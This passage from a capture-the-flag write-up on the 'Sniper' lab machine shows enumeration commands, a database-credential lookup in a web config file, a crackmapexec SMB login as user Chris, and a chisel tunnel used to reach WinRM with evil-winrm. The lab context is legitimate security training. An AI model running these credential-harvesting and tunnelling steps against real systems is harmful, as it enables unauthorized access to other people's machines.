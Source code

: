 > **Victime Machine**:

```cmd
type C:\inetpub\wwwroot\user\db.php
# DB Credentials
whoami /priv
whoami /all
net user
systemInfo
# x64-based PC
cd Chris
# Access is denied.
```

> **Attacker Machine**:

```bash
crackmapexec smb 10.10.10.151 -u 'Chris' -p '36...VM'
```

> **Victime Machine**:

```cmd
netstat -ano
net user chris
# Local Group Memberships      *Remote Management Use
```

<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sniper_writeup/Sniper_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The problem of not being able to access via **WinRM** can be solved with **[chisel](https://github.com/jpillora/chisel){:target="_blank"}**, creating a tunnel to port **5985**. So I download the project from **Github** to compile the `chisel` binary with `go` and compress it with `upx` to start a local server, I will also download the `chisel.exe` binary (**deprecated version**) to transfer it to the attacking machine, and before starting the program in client mode, I check the integrity of the file with `certutil`. Now that I have everything I need, I raise the tunnel and with `lsof` I check that the port **5985** of my attacking machine corresponds to `chisel`. Finally I can connect with `evil-winrm` using the credentials of the **chris** account and access the content of the first flag.
